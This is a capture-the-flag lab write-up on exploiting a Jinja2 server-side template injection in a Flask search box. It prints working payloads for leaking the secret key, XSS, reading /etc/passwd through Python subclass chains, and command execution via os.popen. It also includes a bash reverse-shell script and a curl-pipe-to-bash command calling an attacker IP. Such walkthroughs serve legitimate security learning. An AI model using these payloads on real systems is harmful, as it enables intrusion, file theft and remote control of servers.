 ```yaml
---
date: 2025-02-12
categories: [CTF, IML]
title: "IML - Halloween 2020: Ep.5 – JinjaBread Man (SSTI)"
tags: ['privilege escalation', 'python', 'rce', 'xss']

description: "Halloween 2020 Ep.5 – JinjaBread - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Halloween 2020: Ep.5 – JinjaBread Man (SSTI)

This lab is exploiting a Server Side Template Injection (SSTI) vulnerability in Jinja

- Port 80 is open and we have a /admin directory:

![image1](../resources/466353f0bd5a4357ae428959e10f695c.png)

- The actual page seems static apart from the search box:

![image2](../resources/b2bd35e1ca654339aebb2a1b9eca994e.png)

![image3](../resources/e07ac994b43c4f12ae8c87a4796ad570.png)

- Since this is a SSTI box - we can assume the search box is vulnerable

- Great blog for SSTI on Jinja2:  
[https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)

- We enter

{% raw %}
    {{4*4}}[[5*5]] 
{% endraw %}

and it gets executed (only what's in the `{{ }}` field):

![image4](../resources/3d753f2b10484a048c7a37457164f611.png)

- By injecting 

{% raw %}
```text
{{config.items()}}
```
{% endraw %}

we can get the secret_key

![image5](../resources/bfcc79eacdef409ba6854d6458adfed1.png)

- We can also get XSS by using the safe command:

![image6](../resources/d34a7e1f00624d038d2c249eb62d42c1.png)

{% raw %}
```text
{{'<script>alert(1);</script>'|safe}}
```
{% endraw %}

![image7](../resources/b094f0aca0544fdd934b04bee5cf6f41.png)

**<u>The actual SSTI:</u>**

- First we need to find the index of **_io._IOBase** (the index changes by environment):

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()}}
```
{% endraw %}

![image8](../resources/2fac61fc3fc542c5b30d5de410ece449.png)

- Now we can call it to test - by appending the index **[92]**:

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()[92]}}
```
{% endraw %}

![image9](../resources/c4c0bbd1f35e4621bbd464b77841c108.png)

- We then call the **_io._RawIOBase** class by adding .__subclasses__()[0]:

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0]}}
```
{% endraw %}

![image10](../resources/838a41a738a047d9b5911da4d1c67001.png)

- We then call the **_io.FileIO** class by adding another .__subclasses__()[0]:

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]}}
```
{% endraw %}

![image11](../resources/d7680c65ee17404882ba6a257d01c45f.png)

- Finally, we can use this class to construct a file object and read our file:

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()}}
```
{% endraw %}

![image12](../resources/4ed233e49a8d41ebaad6ef45702a3393.png)

**<u>SSTI RCE:</u>**

- The above link shows the RCE but this is a good article as well:  
<https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/>

This RCE happens because **Flask/Jinja2 templates** have the **request object available to them**

- By using the following payload, we are basically doing **import os and os.popen('id')**:

{% raw %}
```text
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
{% endraw %}

![image13](../resources/5d766dd35b294d16a27f9afb8ceeb5e8.png)

- Create a bash script (rev.sh):

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.102.4.249/4444 0>&1"
```

- Set up a simple python server in the same directory

- Set up a nc listener

- Run the following in the search box:

{% raw %}
```text
{{request.application.__globals__.__builtins__.__import__('os').popen('curl 10.102.4.249:8000/rev.sh | bash').read()}}
```
{% endraw %}

- And we have a shell back:

![image14](../resources/17b9c43fb44944b5bf31cc3d7792b56a.png)

![image15](../resources/e3b3b45085c9487f97b30aa2ead57dfe.png)
